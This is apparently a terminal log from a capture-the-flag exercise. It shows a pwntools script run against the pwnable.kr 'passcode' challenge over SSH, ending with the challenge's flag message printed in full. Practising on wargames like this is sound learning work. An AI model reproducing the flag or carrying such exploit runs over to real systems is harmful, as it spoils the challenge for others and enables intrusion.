 ```
root@ubuntu:~/pwnable/passcode# python ex.py
[+] Connecting to pwnable.kr on port 2222: Done
[*] fd@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Starting remote process './passcode' on pwnable.kr: pid 218086
Sorry mom.. I got confused about scanf usage :(
Now I can safely trust you that you have credential :)

[*] Stopped remote process 'passcode' on pwnable.kr (pid 218086)
[*] Closed connection to 'pwnable.kr'
```

-----

